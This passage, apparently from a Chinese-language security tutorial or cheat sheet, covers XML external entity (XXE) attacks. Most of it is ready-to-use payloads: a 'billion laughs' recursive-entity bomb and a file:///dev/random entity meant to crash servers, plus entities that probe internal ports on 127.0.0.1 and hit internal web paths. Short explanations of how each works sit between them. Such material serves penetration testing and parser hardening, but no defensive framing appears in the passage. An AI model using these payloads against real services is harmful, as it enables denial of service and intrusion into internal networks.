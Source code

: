 通过XXE可以实现RCE的实例比较少，需要依赖协议。

### 拒绝服务攻击(Dos)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

递归引用，lol实体具体还有“lol”字符串，然后一个lol2实体引用了10次lol实体，一个lol3实体引用了10次lol2实体，此时一个lol3实体就含有10^2个“lol”了，以此类推，lol9实体含有10^8个“lol”字符串，最后再引用lol9。此测试可以在内存中将小型XML文档扩展到超过3GB而使服务器崩溃(但是大多数情况下会出现引用失败)。亦或者，如果目标是UNIX系统

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///dev/random">]>
<foo>&xxe;</foo>
```

如果XML解析器尝试使用/dev/random文件中的内容来替代实体，则此示例会使服务器（使用 UNIX 系统）崩溃。

### 探测内网端口

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">]>
<root>
    <name>&xxe;</name>
</root>
```

端口有没有开放等待的时间和报错的内容是不同的

### 攻击内网网站

跟前面端口探测差不多的思路

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload">]>
<root>
    <name>&xxe;</name>
</root>
```
